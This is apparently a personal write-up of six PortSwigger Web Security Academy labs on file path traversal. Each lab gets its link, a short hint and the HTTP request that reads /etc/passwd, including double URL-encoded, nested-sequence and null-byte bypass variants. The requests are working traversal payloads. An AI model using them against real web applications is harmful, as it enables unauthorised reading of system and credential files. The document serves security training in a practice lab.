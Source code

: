 # Directory traversal
https://portswigger.net/web-security/file-path-traversal


1. Lab: File path traversal, simple case
https://portswigger.net/web-security/file-path-traversal/lab-simple

To solve the lab, retrieve the contents of the /etc/passwd file. 

request:
GET /image?filename=../../../etc/passwd HTTP/1.1

# traversed!

2. Lab: File path traversal, traversal sequences blocked with absolute path bypass
https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

 The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file. 

req:
GET /image?filename=/etc/passwd HTTP/1.1

(using full path from root/)

# traversed!

3. Lab: File path traversal, traversal sequences stripped non-recursively
https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively

hint: You might be able to use nested traversal sequences, such as ....// or ....\/, which will revert to simple traversal sequences when the inner sequence is stripped. 

GET /image?filename=....//....//....//etc/passwd HTTP/1.1

# traversed!

4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode

GET /image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd HTTP/1.1

('../../etc/passwd' urlencoded X2)

# traversed!


5. Lab: File path traversal, validation of start of path
https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path

 To solve the lab, retrieve the contents of the /etc/passwd file. 

 if an application requires that the user-supplied filename must start with the expected base folder, such as /var/www/images, then it might be possible to include the required base folder followed by suitable traversal sequences. For example:

```htm
        filename=/var/www/images/../../../etc/passwd
```
request:
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1


# traversed!


6. Lab: File path traversal, validation of file extension with null byte bypass
https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

 If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension. For example:
filename=../../../etc/passwd%00.png

request:
GET /image?filename=../../../etc/passwd%00.png HTTP/1.1


